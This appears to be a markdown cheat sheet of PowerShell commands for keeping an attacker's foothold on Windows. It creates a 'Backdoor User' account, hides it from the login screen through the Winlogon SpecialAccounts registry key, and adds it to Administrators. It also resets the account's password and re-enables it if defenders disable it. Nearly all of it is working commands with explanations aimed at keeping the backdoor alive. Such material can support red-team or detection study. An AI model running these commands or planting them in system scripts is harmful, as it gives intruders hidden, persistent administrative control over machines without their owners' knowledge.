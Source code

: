 # User Accounts

#### Create a New Local User
- To create a new local user with a specified password:
	```powershell
	New-LocalUser -Name "<username>" -Password (ConvertTo-SecureString "<password>" -AsPlainText -Force) -FullName "Backdoor User" -Description "Persistence User"
	```

#### Create a Hidden User Account
- Creates a hidden user account by manipulating registry keys. This user will not show up in the login screen or user account lists:
	```powershell
	# Create the new user
	New-LocalUser -Name "<hidden_username>" -Password (ConvertTo-SecureString "<password>" -AsPlainText -Force) -FullName "Hidden User" -Description "Hidden Backdoor User"
	
	# Modify the registry to hide the user from the login screen
	New-Item -Path "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList" -Force
	Set-ItemProperty -Path "HKLM:\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList" -Name "<hidden_username>" -Value 0
	```
	- Explanation: The hidden user is still functional and can be used for remote access but is hidden from the login screen. The registry key `UserList` controls which users appear on the login screen.

#### Add User to Administrators Group
- To ensure persistence, the user can be added to the Administrators group for elevated privileges:
	```powershell
	Add-LocalGroupMember -Group "Administrators" -Member "<username>"
	```
	- Explanation: This grants administrative privileges, allowing full control over the system, which is essential for maintaining persistence.

#### Modify User Password
- Modify the password of an existing user to regain access in case credentials are changed:
	```powershell
	Set-LocalUser -Name "<username>" -Password (ConvertTo-SecureString "<new_password>" -AsPlainText -Force)
	```
	- Explanation: This is useful when attempting to regain access to a backdoor account whose password has been reset.

#### Enable a Disabled User Account
- If a backdoor account gets disabled, it can be re-enabled to maintain persistence:
	```powershell
	Enable-LocalUser -Name "<username>"
	```
	- Explanation: Re-enabling a disabled user account ensures that the backdoor remains active for future use.

